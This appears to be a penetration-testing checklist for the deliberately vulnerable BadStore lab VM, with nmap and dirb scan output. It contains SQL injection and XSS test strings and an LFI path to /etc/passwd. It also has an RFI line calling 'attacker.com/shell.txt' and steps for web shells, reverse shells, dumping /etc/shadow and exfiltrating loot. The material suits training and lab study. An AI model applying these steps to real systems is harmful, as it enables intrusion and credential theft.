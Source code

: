 
---

### 🔍 **Pre-Engagement Setup**

-  [x] Configure VM in isolated network 
-  [x] Run `netdiscover` or `arp-scan` to identify target IP
-  [x] Confirm connectivity with `ping <IP>`

---

### 🧭 **Enumeration**

#### 🔹 Network Scanning (Nmap)

-  [x] `nmap -sS -A -T4 <IP>` – identify open ports and services

```bash
sudo nmap -sS -sV -O -A -p- -T4 0.0.0.0
```

-  [x] Check for common web ports: 80, 443, 8080, etc.

```
# there is a open ports 
# HTTP  - 80
# HTTPS - 443
# MySQL - 3306
```
#### 🔹 Service Enumeration

- [x] Check service banners (Apache, version, etc.)

```bash
# port 80 Apache httpd 1.3.28 ((Unix) mod_ssl/2.8.15 OpenSSL/0.9.7c)
# port 443 ssl/https Apache/1.3.28 (Unix) mod_ssl/2.8.15 OpenSSL/0.9.7c
# port 3306 MySQL 4.1.7-standard
```

- [x] Look for outdated services    

```bash
# All service outdated
```

#### 🔹 Web Enumeration

-  [x] Browse to the website (`http://<IP>`)

```bash
curl http://0.0.0.0
```

-  [x] Identify CMS or application type (BadStore)

```bash
curl -I http://0.0.0.0
# Server: Apache/1.3.28 (Unix) mod_ssl/2.8.15 OpenSSL/0.9.7c
```

-  [ ] Use `whatweb`, `nikto`, or `dirb/dirbuster` for hidden directories and files

```bash
dirb http://0.0.0.0 -w
```

```bash
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Aug  3 12:43:53 2025
URL_BASE: http://192.168.68.103/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Stopping on warning messages

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.68.103/ ----
==> DIRECTORY: http://192.168.68.103/backup/                                                                       
+ http://192.168.68.103/cgi-bin/ (CODE:403|SIZE:277)                                                               
+ http://192.168.68.103/favicon.ico (CODE:200|SIZE:1334)                                                           
==> DIRECTORY: http://192.168.68.103/images/                                                                       
+ http://192.168.68.103/index (CODE:200|SIZE:3583)                                                                 
+ http://192.168.68.103/index.html (CODE:200|SIZE:3583)                                                            
+ http://192.168.68.103/robots (CODE:200|SIZE:316)                                                                 
+ http://192.168.68.103/robots.txt (CODE:200|SIZE:316)                                                             
==> DIRECTORY: http://192.168.68.103/supplier/                                                                     
                                                                                                                   
---- Entering directory: http://192.168.68.103/backup/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                   
---- Entering directory: http://192.168.68.103/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
+ http://192.168.68.103/images/1000 (CODE:200|SIZE:2804)                                                           
+ http://192.168.68.103/images/1001 (CODE:200|SIZE:2808)                                                           
+ http://192.168.68.103/images/cart (CODE:200|SIZE:607)                                            
+ http://192.168.68.103/images/index (CODE:200|SIZE:268)                                                                                            
---- Entering directory: http://192.168.68.103/supplier/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
+ http://192.168.68.103/supplier/accounts (CODE:200|SIZE:215)                                                      
                                                                                                                   
-----------------
END_TIME: Sun Aug  3 12:44:11 2025
DOWNLOADED: 18448 - FOUND: 11

```

-  [ ] Use `gobuster` or `ffuf` for fuzzing directories

```bash
ffuf -w /usr/share/dirb/wordlists/big.txt -u http://0.0.0.0/FUZZ -c
```

---

### 🧪 **Vulnerability Identification**

#### 🔹 Web Vulnerabilities

-  [x] Try **SQL Injection** (search boxes, login forms, etc.)    

```bash
# Register for a New account
# Full Name:
# enter this: 1=1'--
```

-  [x] Test for **XSS** (reflected or stored)

```bash
# Register for a New account
# Full Name:
# enter this: <script>alert(1)</script>
```

-  [ ] Attempt **Command Injection**

```bash

```

-  [ ] Analyze JavaScript for hidden data or functions
-  [ ] Look for hardcoded credentials
-  [ ] Try default creds: `admin/admin`, `test/test`, `admin/password`

#### 🔹 File Upload / LFI / RFI

-  Test file upload if available – check for:
    -  Lack of file type restrictions
    -  Location where uploaded file is stored
-  Try LFI: `page=../../../../etc/passwd`
-  Try RFI: `page=http://attacker.com/shell.txt`    

---

### 🧱 **Gain Initial Access**

-  Exploit vulnerable login (SQLi, weak creds, etc.)    
-  Upload web shell (`php-reverse-shell`, `c99`, etc.)
-  Set up listener: `nc -lvnp <port>`
-  Execute reverse shell

---

### 🧗 **Privilege Escalation**

#### 🔹 Basic Enumeration

-  `uname -a`    
-  `id`, `whoami`
-  `sudo -l`
-  Check for SUID/SGID files: `find / -perm -4000 -type f 2>/dev/null`
-  Look for writable files in `/etc`

#### 🔹 Password Hunting

-  Check home directories
-  Check `.bash_history`, `.mysql_history`, `.ssh/`
-  Look for config files with creds: `config.php`, `wp-config.php`, etc.

#### 🔹 Exploitable Binaries / Cron Jobs

-  Look in `/etc/crontab`, `/etc/cron.*`
-  Look for misconfigured scripts run by root

#### 🔹 Kernel Exploits

-  Identify kernel version: `uname -r`
-  Search for matching local exploits (e.g., Dirty COW)

---

### 📦 **Post-Exploitation**

-  Dump `/etc/shadow`    
-  Try cracking hashes using `john` or `hashcat`
-  Exfiltrate loot: passwords, database dumps, config files
-  Enumerate internal network (if any)

---

### 🧹 **Clean Up**

-  Remove any shells, uploaded files, logs (if required)
-  Close any listeners or payloads

---

### 📝 **Flag / Goal (If applicable)**

-  Locate the flag (often in `/root` or `/home/user`)    
-  Submit the flag as required

---

